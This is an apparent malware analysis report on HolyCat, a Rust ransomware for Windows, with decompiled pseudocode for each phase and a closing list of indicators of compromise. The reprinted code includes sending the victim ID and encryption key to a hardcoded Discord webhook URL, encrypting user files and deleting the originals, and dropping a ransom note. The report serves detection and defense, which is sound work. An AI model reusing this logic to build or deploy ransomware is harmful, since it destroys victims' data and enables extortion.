


# 1. Executive Summary

**HolyCat** is a sophisticated ransomware strain developed in the **Rust** programming language, designed to target Windows environments. The malware operates as a self-contained binary capable of both encryption and decryption, leveraging modern cryptographic standards to deny users access to their data.

Upon execution, the malware generates a unique 7-digit Victim ID and a cryptographically secure 32-byte master key. This key is immediately exfiltrated to the attacker via a **Discord Webhook**, effectively bypassing traditional Command & Control (C2) infrastructure and blending malicious traffic with legitimate application usage.

The malware utilizes a highly aggressive targeting mechanism, identifying and encrypting over 300 specific file extensions ranging from documents and images to source code and database files. Encrypted files are appended with the **.HC** extension. The ransom note (`README.txt`) directs victims to contact the attackers via Telegram. Unlike many commodity ransomware families, HolyCat includes fully functional decryption logic within the payload itself, activated via specific command-line arguments.

**Key Findings:**

- **Language:** Compiled in Rust (MinGW toolchain), offering performance and resistance to reverse engineering.
- **Encryption:** Uses AES-256 (via block-modes crate) with unique Initialization Vectors (IVs) for every file.
- **Exfiltration:** Relies solely on Discord Webhooks for key management.
- **Impact:** Irreversible encryption of user data across Desktop, Documents, Music, and Video directories.
# 2. Static Analysis Overview

Initial static analysis was performed using Binary Ninja and Detect It Easy (DIE) to gather file metadata and identify the compilation characteristics. The sample is a `64-bit Windows Portable Executable (PE)` with a significant file size (approx. 6.36 MB), suggesting the presence of statically linked libraries or an appended overlay.
## 2.1. File Identification





| Property                  | Value                                                            |
| ------------------------- | ---------------------------------------------------------------- |
| **File Name**             | HolyCat.exe                                                      |
| **File Type**             | PE64 Executable (GUI) x86-64                                     |
| **Architecture**          | AMD64                                                            |
| **File Size**             | 6.36 MiB (0x65d420 bytes)                                        |
| **MD5**                   | b569a16bfa06be57b8902e291c6ac9ed                                 |
| **SHA-1**                 | 5b6596b52612dfc2b81f892f14d9f2b7eea3bd16                         |
| **SHA-256**               | d42b4e9bd0c54df09c9c1925b7eb41f6a877963ededdd0dd463e3d16dfe6cd5d |
| **Compilation Timestamp** | 2025-10-24 08:10:06                                              |
| **Entry Point**           | 0x1400013e0                                                      |
| **Compiler/Language**     | Rust                                                             |

## 2.2. PE Header Analysis & Characteristics

Examination of the Portable Executable (PE) headers revealed several notable anomalies and security characteristics:
- **Compilation Timestamp:** The TimeDateStamp is `Fri Oct 24 08:10:06 2025`, indicating the binary was compiled recently relative to the time of analysis.
- **Subsystem:** The subsystem is set to `WINDOWS_GUI`. This indicates that when the application launches, it will not create a console window, allowing it to run silently in the background without alerting the user.
- **DLL Characteristics:**
    - `HIGH_ENTROPY_VA` and `DYNAMIC_BASE`: The binary supports Address Space Layout Randomization (ASLR), making memory addresses unpredictable during execution.
    - `NX_COMPAT`: The binary supports Data Execution Prevention (DEP).
- **Overlay Detection:** Static analysis tools detected a significant overlay (data appended to the end of the file that is not mapped to a section). The overlay starts at offset 0x480000 and is approximately 1.8 MB in size. This suggests the file contains a packed payload or a large embedded configuration block.

## 2.3. Imported Libraries and Functions

The Import Address Table (IAT) analysis reveals several critical dependencies that align with ransomware behavior.

| DLL Name                     | Purpose & Suspicious Functions                                                                                                      |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| **ws2_32.dll**               | **Networking:** Provides Winsock API support, indicating the malware establishes network connections (likely for C2 communication). |
| **bcrypt.dll / ncrypt.dll**  | **Cryptography:** Next-Gen Cryptography API. Used for generating keys, hashing, or performing the file encryption itself.           |
| **crypt32.dll**              | **Certificate/Crypto:** Additional cryptographic functions, possibly for protecting C2 traffic or handling certificates.            |
| **advapi32.dll**             | **System Manipulation:** Functions for registry access and service management.                                                      |
| **shell32.dll / user32.dll** | **GUI & Execution:** Used for file system operations and potentially displaying the ransom note window or changing the wallpaper.   |

## 2.4. Embedded Strings and Artifacts

String extraction provided immediate confirmation of the malware's intent. The binary contains clear references to ransomware activity, communication channels, and Command & Control (C2) infrastructure.

- **Ransom Note Text:**
	"Your files have been encrypted by the HolyCat Ransomware... Do not attempt to decrypt your files... Your ID: "
- **C2 Infrastructure (Discord):**
	`https://discord.com/api/webhooks/1430294038665494529/qeZNmTIaC6Yr0JE7usgtjISyffEJqEgMFmbPR0r1n5czgd9_C8EwGjUHBiOr2hd2PTAX`
	Analysis: The malware uses a Discord Webhook to exfiltrate data (likely the victim ID and encryption keys) without needing a custom server.
- **Remote Resource (Wallpaper):**
	 `https://i.ibb.co/gFZ4z65x/background.jpg`  
	 Analysis: A URL pointing to an image hosting site, likely used to download and set a new desktop background to alert the victim.
- **Attacker Contact Info:**
	 Download : Telegram @holyduxy ~ @qs77x
- **Dropped Files:**
	 README.txt (Ransom Note)  
	 decrypt.bat (Decryption script)
## 2.5. Memory Layout and Sections

The section headers are largely standard for a Windows PE file, with the .text section containing the executable code.

| Section Name | Virtual Size | Characteristics   | Purpose                                              |
| ------------ | ------------ | ----------------- | ---------------------------------------------------- |
| **.text**    | 0x2f3700     | RX (Read/Execute) | Executable code (Rust runtime + Malware logic).      |
| **.data**    | 0x005850     | RW (Read/Write)   | Initialized global variables.                        |
| **.rdata**   | 0x120368     | R (Read Only)     | Read-only data (Strings, Import Table).              |
| **.tls**     | 0x000010     | RW                | Thread Local Storage (used for Rust initialization). |
| **.reloc**   | 0x006e18     | R                 | Relocation table (supports ASLR).                    |

**Note on Thread Local Storage (.tls):**  
The binary includes a .tls section, which is often scrutinized during malware analysis as a potential vector for anti-debugging techniques (executing malicious code before the entry point). However, in this context, the .tls section is **benign**. It is a standard artifact generated by the Rust compiler (MinGW toolchain) used to manage memory for thread-local variables. It does not appear to contain malicious pre-execution logic.

# 3. Entry Point and Pre-Execution Analysis

The executable entry point is located at `0x1400013e0 (WinMainCRTStartup)`, which immediately jumps to `tmainCRTStartup (0x140001010)`. This function is a standard MinGW runtime initialization routine. It performs the following setup tasks:

- Configures the exception handlers (SetUnhandledExceptionFilter).
- Initializes the environment variables and command-line arguments via __getmainargs.
- Sets the application type to GUI (_crt_gui_app).

Following initialization, the runtime transfers control to the user-defined main function. No obfuscation or anti-analysis checks were observed within this standard CRT wrapper.

# 4. Technical Analysis

The technical analysis focuses on the execution flow starting from the primary main function. Due to the binary being compiled in Rust, the initial execution path involves setting up the language runtime before transitioning to the malware's core logic.
## 4.1. Rust Runtime Entry and Initialization

The entry function at `0x140006a50` serves as the standard Rust runtime wrapper. It performs two critical actions:

1. Calls __main() to execute standard MinGW global constructors (__do_global_ctors).
2. Passes the address of the actual payload function (holycat::main) to the Rust runtime handler (std::rt::lang_start_internal).

```c
// Address: 0x140006a50
int64_t main(int32_t argc, char** argv) {
    // 1. Initialize MinGW Global Constructors
    __main(); 

    // 2. Prepare the pointer to the actual malware logic
    // Symbol: holycat::main::hc8460e537fed18be
    void* actual_entry_point = holycat::main::hc8460e537fed18be;
    
    // 3. Hand over control to the Rust Runtime
    return std::rt::lang_start_internal::hef17bfe63922d468(
        &actual_entry_point, 
        &_.rdata
    );
}

// -- snip --

// Address: 0x1402f3640
int64_t __main() {
    // Checks if initialized, then calls global constructors
    if (_.bss_1 != 0) return _.bss_1;
    _.bss = 1;
    return __do_global_ctors(); // Standard MinGW initialization
}
```

## 4.2. Phase 1: Initialization and Victim ID Generation

The execution begins in the `holycat::main` function. The malware performs three distinct steps to initialize the environment and identify the victim.

**1. Argument Parsing (Unused):**  
At address `0x140003d96`, the malware calls `std::env::args`. This function retrieves command-line arguments (argv).

- **Analysis:** This function retrieves the command-line arguments passed during execution. Unlike typical malware that might ignore these, **HolyCat** actively collects them to determine its operating mode. This data is used immediately in the next phase to check if the user has provided a decryption key and the -d flag.

**2. RNG Engine Initialization:**  
At address `0x140003db4`, the code calls `rand::rngs::thread::thread_rng`.

- **Analysis:** It initializes the **Random Number Generator (RNG) Engine** (`var_568`). This engine is the tool that will be used to create random data later.

**3. Victim ID Generation:**  
At address `0x140003de5`, the malware uses the previously created Engine (`var_568`) and a specific hardcoded range (`var_4c8`) to generate the Victim ID.

- **The Range (0x989680000f4240):** This value is composed of two packed 32-bit integers:
    - Lower 32-bits: `0xF4240` (Decimal: **1,000,000**)
    - Upper 32-bits: `0x989680` (Decimal: **10,000,000**)
- **Result:** The function `gen_range` returns a random **7-digit number** (e.g., `5820391`), which is assigned to `var_554`.

```c
// Address: 140003d96
// 1. Retrieve Command Line Arguments (Argv)
// Stored in var_4c8/var_550, but generally unused for logic.
std::env::args::h05b6313f2cc31fa9(&var_4c8);

// Address: 140003db4
// 2. Initialize the Random Number Generator Engine
// 'var_568' becomes the RNG object.
int64_t* var_568 = rand::rngs::thread::thread_rng::hd55dc877326ed7ed();

// Address: 140003dc3
// 3. Define the Range: 1,000,000 to 10,000,000
// Hex: 0x989680000f4240 -> High: 0x989680, Low: 0xF4240
var_4c8 = 0x989680000f4240;

// Address: 140003de5
// 4. Generate the Victim ID
// Uses the Engine (var_568) and the Range (var_4c8)
int32_t victim_id = rand::rng::Rng::gen_range::h9981c510ecaa4278(&var_568, &var_4c8);
```

## 4.3. Phase 2: Execution Logic and Dynamic Key Generation

Following the ID generation, the malware enters a critical branching point based on the provided command-line arguments (argc). This logic determines whether the binary operates in **Encryption Mode** (default) or **Decryption Mode**.

**1. Mode Selection Logic:**  
At address `0x140003df2`, the malware checks the argument count (i_3).

- **Decryption Path (argc == 3):** If 3 arguments are present, it checks for the `-d` flag (`0x642d`). If valid, it attempts to decode the provided key and decrypt files.
- **Encryption Path (argc == 1):** If the binary is executed normally (no arguments), the check `if (i_3 != 1)` fails, allowing execution to fall through to the key generation routine at `0x140003e0d`.

**2. Cryptographic Key Generation:**  
Once inside the encryption path, the malware allocates a **32-byte buffer** (0x20) on the stack.

- **Randomization:** At `0x140003e38`, it calls `fill_bytes` from the rand crate to populate this buffer with cryptographically secure random bytes. This 32-byte array serves as the symmetric encryption key.
- **Encoding:** At `0x140003e77`, the raw key is immediately encoded using **Base64** (`base64::engine::Engine::encode`). This encoding is necessary to transmit the binary key as a string within the JSON payload sent to the C2 server.

```c
// Address: 140003df2
// Check Argument Count (argc)
if (argc == 3) {
    // [Decryption Logic - Checks for "-d" flag]
    // ...
}

// Address: 140003dfc
// If argc is NOT 1 (and wasn't 3), exit.
// This ensures Encryption Mode only runs when executed without flags.
if (argc != 1) goto label_error;

// --- ENCRYPTION MODE START ---

// Address: 140003e0d
// Allocate 32 bytes (0x20) for the key
int128_t key_buffer; 
memset(&key_buffer, 0, 0x20); 

// Address: 140003e1a
// Initialize RNG
var_4c8 = rand::rngs::thread::thread_rng::hd55dc877326ed7ed();

// Address: 140003e38
// Generate the 32-byte Encryption Key
_$LT$rand..rngs..thread....re$GT$::fill_bytes::h35e014a332cb3e8f(
    &var_4c8, 
    &key_buffer, // Buffer to hold the key
    0x20         // Size: 32 bytes
);

// Address: 140003e77
// Encode the raw key to Base64 for C2 transmission
base64::engine::Engine::encode::inner::ha015092c7f35d097(
    &encoded_key_output, 
    &base64_table, 
    &key_buffer, 
    0x20
);
```

## 4.4. Phase 3: C2 Key Exfiltration

Before initiating file encryption, the malware attempts to contact its Command & Control (C2) infrastructure via a Discord Webhook. This step acts as a network-based "Kill Switch"—if the request fails, the malware may abort.

**1. Payload Construction (ID + Key):**  
The malware does not send the Key and ID as separate JSON fields. Instead, it uses Rust's formatting capabilities (`alloc::fmt::format`) to construct a single human-readable message string.

- **Format String:** Loaded from `data_1402fb958`, beginning with the Unicode sequence `\xF0\x9F\x91\xA4 (👤) followed by " ID: "`.
- **Arguments:** It combines the **Victim ID** (var_554) and the **Base64 Encoded Key**.
- **Result:** The final string sent to Discord is formatted as: `👤 ID: [VictimID] [EncryptionKey]`.
 
The malware creates a `BTreeMap` (a JSON object) and inserts this formatted string under the key **"content"**.
```json
{
  "content": "👤 ID: 1234567 <BASE64_KEY...>"
}
```

**2. Data Exfiltration (POST Request):**  
The malware executes an HTTP POST request to the hardcoded Discord Webhook URL.
- **Target:** `https://discord.com/api/webhooks/1430294038665494529/qeZNmTIaC6Yr0JE7usgtjISyffEJqEgMFmbPR0r1n5czgd9_C8EwGjUHBiOr2hd2PTAX`
- **Method:** POST
- **Body:** The JSON payload created above.

This technique allows the attacker to receive the decryption key for every victim in a private Discord channel without maintaining a custom C2 server.

```c
// Address: 140003ea3
// Allocate memory for the JSON key "content"
// "content" is the message body field in Discord Webhooks
__builtin_strncpy(json_key_string, "content", 7);

// Address: 140003f67
// Format the final message string: "👤 ID: {0} {1}"
// Combines Victim ID and Base64 Key into one string
alloc::fmt::format::format_inner::h8ac9865ec888276f(&var_1d8, &var_4c8);

// Address: 1400041b5
// Initialize HTTP Client (Reqwest)
reqwest::blocking::client::Client::new::h8da3f77bdf348913(&client_obj);

// Address: 140004200
// Build the POST Request to Discord
reqwest::blocking::client::Client::request::h678f8c2c49889deb(
    &request_builder, 
    &client_obj, 
    &method_POST, 
    "https://discord.com/api/webhooks/1430294038665494529/qeZNmTIaC6Yr0JE7usgtjISyffEJqEgMFmbPR0r1n5czgd9_C8EwGjUHBiOr2hd2PTAX", 
    0x79
);

// Address: 14000421d
// Attach the JSON Payload {"content": "👤 ID..."}
reqwest::blocking::reque...questBuilder::json::h5166373aa3f203f2(
    &request_builder, 
    &json_payload_object, 
    &content_type_header
);

// Address: 140004232
// Send the Request
reqwest::blocking::reque...questBuilder::send::h8d5682d21b52de3c(&response, &request_builder);
```

## 4.5. Phase 4: Target Identification and Extension Whitelisting
Immediately following the Discord communication, the malware initializes its targeting parameters. This involves allocating memory for a comprehensive list of file extensions that will be encrypted.

**1. Extension Whitelist Allocation:**  
At address `0x14000432a`, the malware calls `__rustc::__rust_alloc` to reserve **3,776 bytes** (`0xec0`) of memory.  
It then populates this memory with a hardcoded list of file extensions. The scope is extremely aggressive, targeting:

- **Documents:** txt, pdf, docx, xlsx, pptx, odt, rtf
- **Source Code:** c, cpp, java, py, rs, go, swift, js, php, rb
- **Databases:** sql, db, sqlite, mdb, accdb
- **Archives/Backups:** zip, rar, 7z, tar, gz, bak, iso, vmdk
- **Images/Design:** jpg, png, psd, ai, svg, dwg
- **Configuration:** xml, yaml, json, ini, conf
and more...

**2. Directory Targeting:**  
The malware explicitly defines the directories to scan by loading the following strings into local variables:

- "desktop"
- "documents"
- "music"
- "videos"

This targeted approach focuses on user-generated content rather than system files, maximizing the impact on the victim while maintaining system stability.
```c
// Define Target Directories
local_1d8 = "desktop";
local_1c8 = "documents";
local_1b8 = "music";
local_1a8 = "videos";

// Allocate Memory for Whitelist
puVar11 = (undefined8 *)__rustc::__rust_alloc(0xec0, 8);

// Populate Whitelist (Extension + Length)
*puVar11 = "txt";      // Extension
puVar11[1] = 3;        // Length
puVar11[2] = "md";
puVar11[3] = 2;
// ... [Hundreds of extensions] ...
puVar11[0x4e] = "rs";  // Rust Source
puVar11[0x4f] = 2;
puVar11[0x9e] = "db";  // Database
puVar11[0x9f] = 2;
puVar11[0x136] = "zip"; // Archive
puVar11[0x137] = 3;
```
Note: This specific code snippet was extracted from Ghidra.
## 4.6. Phase 5: Recursive Encryption and File Destruction

The final stage of the attack involves iterating through the identified user files, encrypting them, and ensuring the original data is unrecoverable. This logic is encapsulated within the function `holycat::encrypt::encrypt_file` (Address `0x140009210`).

**1. Cryptographic Setup (IV Generation):**  
Upon opening a target file, the malware generates a unique 16-byte (0x10) Initialization Vector (IV) using the thread-local random number generator.

- **Purpose:** The use of a random IV ensures semantic security; identical files will produce distinct ciphertexts, preventing attackers or analysts from identifying file contents based on hash comparison.

**2. Encryption and Layout:**  
The file content is read entirely into memory and encrypted using the 32-byte master key generated in Phase 2. The malware utilizes the block_modes crate, indicating a block cipher implementation (likely AES-256).  
The output format constructed in memory is:
```c
[ 16-Byte Random IV ] + [ Encrypted File Data ]
```

**3. File Destruction (The .HC Extension):**  
Unlike some ransomware that encrypts in place, HolyCat creates a new file handle.

- **New Filename:** The malware appends the extension **.HC** to the original filename (e.g., `invoice.pdf` becomes `invoice.pdf.HC`).
- **Write:** The encrypted buffer (IV + Ciphertext) is written to this new file.
- **Delete:** Immediately upon successful write, the malware calls `std::sys::fs::remove_file` to delete the original, unencrypted file from the disk.

```c
// Address: 140009210
// Function: holycat::encrypt::encrypt_file

// 1. Generate 16-byte IV
local_ba8 = rand::rngs::thread::thread_rng();
_<>::fill_bytes(&local_ba8, &local_bf8, 0x10); // 0x10 = 16 bytes

// 2. Initialize Block Cipher (32-byte Key)
cipher::block::NewBlockCipher::new_from_slice(&local_7d8, param_3, 0x20);

// 3. Encrypt Content (Cipher Block Chaining)
// Input: local_408 (Plaintext), Output: local_be8 (Ciphertext)
block_modes::traits::BlockMode::encrypt_vec(&local_be8, local_408, ...);

// 4. Construct Output Buffer
// First 16 bytes = IV
*local_7d0 = (undefined4)local_bf8; 
// Append Encrypted Data
memcpy((void *)((longlong)local_7d0 + 0x10), local_be0, local_bd8);

// 5. Write New File (.HC)
// "2e 48 43 00" -> ".HC" loaded at 1402fca00
alloc::fmt::format::format_inner(&local_bd0, &local_ba8); 
std::fs::write::inner(local_bc8, local_bc0, puVar6, ...);

// 6. Delete Original File
std::sys::fs::remove_file(local_c08, local_c00);
```

## 4.7. Phase 6: Post-Exploitation and Victim Notification

Upon the completion of the encryption loop, the malware executes a series of actions designed to alert the victim and facilitate the extortion payment.

**1. Wallpaper Modification:**  
At address `0x140005e89`, the malware loads a hardcoded URL pointing to an image hosted on ImgBB. It then invokes the wallpaper crate to download and set this image as the system background.

- **URL:** `https://i.ibb.co/gFZ4z65x/background.jpg`
- **Function:** `wallpaper::windows::set_from_url` (Address `0x140005ec2`)

**2. Ransom Note Creation (README.txt):**  
At address `0x140005fa6`, the malware writes a file named `README.tx`t. The content is constructed by formatting a template string (located at `0x1402fbe00`) with the victim's unique ID.

- **Content:** The note contains ASCII art and a standard extortion message: "All your files have been encrypted by the HolyCat Ransomware... Do not attempt to decrypt your files."
- **Contact Info:** It directs victims to Telegram handles `@holyduxy` and `@qs77x`.

**3. Decryption Script (decrypt.bat):**  
To simplify the payment process for the user, the malware drops a batch script named `decrypt.ba`t at address `0x14000651e`.

- **Logic:** The script prompts the user to enter their decryption key. It then executes the malware binary itself with the -d flag and the provided key.
- **Batch Content:**
```batch
@echo off
set /p FILE=Enter your key: 
"" -d %FILE%
pause
```
*(Note: The empty quotes "" likely represent the malware's executable name, inserted dynamically).*

```c
// Address: 140005e89
// 1. Set Wallpaper
char* url = "https://i.ibb.co/gFZ4z65x/background.jpg\n    ";
wallpaper::windows::set_from_url(url, ...);

// Address: 140005fa6
// 2. Write Ransom Note
// Template at 1402fbe00: "Your files have been encrypted!..."
rdi = std::fs::write::inner("README.txt", ...);

// Address: 14000651e
// 3. Write Decryption Script
// Template at 1402fc160: "@echo off\nset /p FILE=Enter your key:..."
rdi = std::fs::write::inner("decrypt.bat", ...);
```

## 4.8. Phase 7: Decryption Routine

The binary contains a fully functional decryption routine, activated via the `-d` flag. This logic is encapsulated within `holycat::decrypt::decrypt_file` (Address `0x1400088e0`).

**1. Data Ingestion and Parsing:**  
The function reads the encrypted file into a buffer. It then parses the file header to retrieve the cryptographic parameters:

- **IV Extraction:** The first 16 bytes (0x10) are extracted and used as the Initialization Vector.
- **Ciphertext Isolation:** The remaining data (File Size - 16 bytes) is identified as the encrypted payload.

**2. Decryption Process:**  
Using the user-provided key (passed as a command-line argument) and the extracted IV, the malware invokes `block_modes::traits::BlockMode::decrypt_vec`. This reverses the AES-256 encryption applied during the attack phase.

**3. File Restoration:**  
Upon successful decryption, the malware performs the following restorative actions:

- **Extension Validation:** It verifies that the file ends with the .HC extension (0x482e, 0x43).
- **Write:** It writes the decrypted plaintext to a new file, removing the .HC suffix (restoring the original filename).
- **Cleanup:** It deletes the encrypted `.HC` file from the disk.
```c
// Address: 140008910
// Read encrypted file
std::fs::read::inner(..., &encrypted_buffer);

// Address: 1400089bb
// Extract IV (First 16 bytes)
int128_t iv = *(uint128_t*)encrypted_buffer;

// Address: 1400089d1
// Decrypt Content (Ciphertext starts at offset 0x10)
block_modes::traits::BlockMode::decrypt_vec(..., iv, buffer + 0x10, length - 0x10);

// Address: 140008a1a
// Validate .HC extension
// 0x482e = ".H", 0x43 = "C"
if (extension_check == ".HC") {
    
    // Address: 140008a91
    // Write Decrypted File (Original Name)
    std::fs::write(original_path, decrypted_data);

    // Address: 140008aba
    // Remove Encrypted File
    std::sys::fs::remove_file(encrypted_path);
}
```

# 5. Conclusion

The technical analysis of **HolyCat.exe** reveals a streamlined and potent ransomware threat. The choice of Rust as the development language indicates a shift towards modern, memory-safe languages in malware development, complicating static analysis through unique compiler artifacts and non-standard library dependencies.

The malware's execution flow is linear and robust:

1. **Initialization:** It successfully fingerprints the victim machine with a unique ID.
2. **Key Management:** It generates strong, random encryption keys locally and ensures their survival via immediate exfiltration to Discord.
3. **Destruction:** It employs a recursive file traversal algorithm that targets high-value user data while avoiding system instability. The cryptographic implementation (random IVs per file) prevents trivial decryption or collision attacks.

However, the reliance on a hardcoded Discord Webhook URL presents a significant single point of failure. Network-level blocking of this specific webhook would prevent the attackers from receiving the decryption keys, although it would not stop the local encryption process.

The presence of the decryption logic within the attack binary suggests the malware may be distributed as a standalone tool where the builder generates a single executable handling all functions.
# Appendix A: Indicators of Compromise (IOCs)

The following artifacts and indicators were identified during the analysis and can be used for detection and containment.

**File Artifacts**


| Type            | Value                                                            | Description                                     |
| --------------- | ---------------------------------------------------------------- | ----------------------------------------------- |
| **Filename**    | HolyCat.exe                                                      | Original payload filename.                      |
| **SHA256**      | d42b4e9bd0c54df09c9c1925b7eb41f6a877963ededdd0dd463e3d16dfe6cd5d | File Hash.                                      |
| **Extension**   | .HC                                                              | Appended to encrypted files.                    |
| **Ransom Note** | README.txt                                                       | Dropped in folders containing encrypted files.  |
| **Script**      | decrypt.bat                                                      | Helper script dropped to facilitate decryption. |

**Network Indicators**

|              |                                                                                                                             |                                                      |
| ------------ | --------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------- |
| Type         | Value                                                                                                                       | Context                                              |
| **C2 URL**   | `https://discord.com/api/webhooks/1430294038665494529/qeZNmTIaC6Yr0JE7usgtjISyffEJqEgMFmbPR0r1n5czgd9_C8EwGjUHBiOr2hd2PTAX` | Used to exfiltrate Victim ID and Encryption Key.     |
| **Resource** | `https://i.ibb.co/gFZ4z65x/background.jpg`                                                                                  | Wallpaper image downloaded during post-exploitation. |

**Attacker Contact**

| Platform     | Handle    |
| ------------ | --------- |
| **Telegram** | @holyduxy |
| **Telegram** | @qs77x    |